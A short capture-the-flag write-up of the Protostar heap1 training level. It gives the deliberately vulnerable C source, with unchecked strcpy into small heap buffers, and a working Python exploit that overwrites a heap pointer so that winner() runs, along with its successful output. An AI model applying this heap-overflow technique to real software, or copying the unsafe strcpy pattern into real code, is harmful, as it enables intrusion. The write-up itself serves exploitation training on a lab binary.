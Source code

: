 This level is at `/opt/protostar/bin/heap1`.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```



## 攻击目标

改变程序控制流，让`winner()`执行。



## 攻击过程

```shell
$ cat heap1.py
arg1_padding = "AAAABBBBCCCCDDDDEEEE"
ret = "\x74\x97\x04\x08 "
arg2 = "\x94\x84\x04\x08"
print arg1_padding + ret + arg2
$ ./heap1 `python heap1.py`
and we have a winner @ 1711319487
```
